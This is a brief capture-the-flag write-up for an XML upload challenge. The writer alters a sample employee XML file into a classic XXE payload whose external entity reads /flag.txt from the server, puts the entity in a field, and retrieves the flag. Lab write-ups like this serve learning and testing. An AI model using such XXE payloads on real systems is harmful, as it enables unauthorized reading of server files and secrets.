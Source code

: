 # solution

![alt text](image.png)<br>
We have a page like this. First of all, i download file example employee.xml and modify basic xxe payload. I create a external entity called **xxe** when calling this variable it will get the contents of the flag file. Upload this file.

```
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
<employees>
  <employee>
    <name>&xxe;</name>
    <email>john.doe@example.com</email>
    <position>Troll</position>
    <salary>100000</salary>
  </employee>
  <employee>
    <name>Jane Doe</name>
    <email>jane.doe@example.com</email>
    <position>Developer</position>
    <salary>80000</salary>
  </employee>
  <employee>
    <name>Jim Smith</name>
    <email>jim.smith@example.com</email>
    <position>Designer</position>
    <salary>75000</salary>
  </employee>
</employees>
```

You can put **&xxe;** in any field. And i got the flag.
![alt text](image-1.png)<br>
